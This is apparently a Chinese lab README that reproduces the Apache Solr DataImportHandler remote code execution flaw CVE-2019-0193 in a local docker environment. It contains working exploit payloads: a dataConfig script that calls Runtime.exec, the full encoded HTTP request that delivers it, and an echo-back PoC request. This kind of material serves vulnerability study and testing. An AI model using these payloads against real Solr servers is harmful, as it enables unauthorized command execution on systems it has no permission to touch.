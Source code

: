 # Apache Solr 远程命令执行漏洞（CVE-2019-0193）

漏洞原理与分析可以参考：

- https://mp.weixin.qq.com/s/typLOXZCev_9WH_Ux0s6oA
- https://paper.seebug.org/1009/

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。此次漏洞出现在Apache Solr的DataImportHandler，该模块是一个可选但常用的模块，用于从数据库和其他源中提取数据。它具有一个功能，其中所有的DIH配置都可以通过外部请求的dataConfig参数来设置。由于DIH配置可以包含脚本，因此攻击者可以通过构造危险的请求，从而造成远程命令执行。

本环境测试RCE漏洞。

## 漏洞环境

运行漏洞环境：

```
docker-compose up -d
docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```

命令执行成功后，需要等待一会，之后访问`http://your-ip:8983/`即可查看到Apache solr的管理页面，无需登录。

## 漏洞复现

![](2.jpg)

如上图所示，首先打开刚刚创建好的`test`核心，选择Dataimport功能并选择debug模式，填入以下POC：

```
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("touch /tmp/success");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```

点击`Execute with this Confuguration`会发送以下请求包：

```
POST /solr/test/dataimport?_=1565835261600&indent=on&wt=json HTTP/1.1
Host: localhost:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 679
Connection: close
Referer: http://localhost:8983/solr/
Cookie: csrftoken=gzcSR6Sj3SWd3v4ZxmV5OcZuPKbOhI6CMpgp5vIMvr5wQAL4stMtxJqL2sUE8INi; sessionid=snzojzqa5zn187oghf06z6xodulpohpr

command=full-import&verbose=false&clean=false&commit=true&debug=true&core=test&dataConfig=%3CdataConfig%3E%0A++%3CdataSource+type%3D%22URLDataSource%22%2F%3E%0A++%3Cscript%3E%3C!%5BCDATA%5B%0A++++++++++function+poc()%7B+java.lang.Runtime.getRuntime().exec(%22touch+%2Ftmp%2Fsuccess%22)%3B%0A++++++++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22stackoverflow%22%0A++++++++++++url%3D%22https%3A%2F%2Fstackoverflow.com%2Ffeeds%2Ftag%2Fsolr%22%0A++++++++++++processor%3D%22XPathEntityProcessor%22%0A++++++++++++forEach%3D%22%2Ffeed%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E&name=dataimport
```

执行`docker-compose exec solr ls /tmp`，可见`/tmp/success`已成功创建：

![](3.jpg)

## 有回显的POC
```
POST /solr/test/dataimport?command=full-import&debug=true&wt=json&indent=true&verbose=false&clean=false&commit=false&optimize=false&dataConfig=%3CdataConfig%3E%0D%0A%3CdataSource%20name%3D%22streamsrc%22%20type%3D%22ContentStreamDataSource%22%20loggerLevel%3D%22DEBUG%22%20%2F%3E%0D%0A%3Cscript%3E%3C!%5BCDATA%5B%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20function%20execute(row)%20%20%20%20%7B%0D%0Arow.put(%22id%22,'ThisIsATestToProveAVulnerability')%3B%0D%0Areturn%20row%3B%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7D%0D%0A%20%20%20%20%20%20%20%20%5D%5D%3E%3C%2Fscript%3E%0D%0A%3Cdocument%3E%0D%0A%20%20%20%20%3Centity%0D%0A%20%20%20%20%20%20%20%20stream%3D%22true%22%0D%0A%20%20%20%20%20%20%20%20name%3D%22streamxml%22%0D%0A%20%20%20%20%20%20%20%20datasource%3D%22streamsrc%22%0D%0A%20%20%20%20%20%20%20%20processor%3D%22XPathEntityProcessor%22%0D%0A%20%20%20%20%20%20%20%20rootEntity%3D%22true%22%0D%0A%20%20%20%20%20%20%20%20forEach%3D%22%2Fbooks%2Fbook%22%0D%0A%20%20%20%20%20%20%20%20transformer%3D%22script%3Aexecute%22%20%3E%0D%0A%09%09%09%3Cfield%20column%3D%22id%22%20name%3D%22id%22%2F%3E%0D%0A%20%20%20%20%3C%2Fentity%3E%0D%0A%3C%2Fdocument%3E%0D%0A%3C%2FdataConfig%3E HTTP/1.1
Host: localhost:8983
Content-Type: text/html
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 66

<?xml version="1.0" encoding="utf-8"?><books><book></book></books>
```

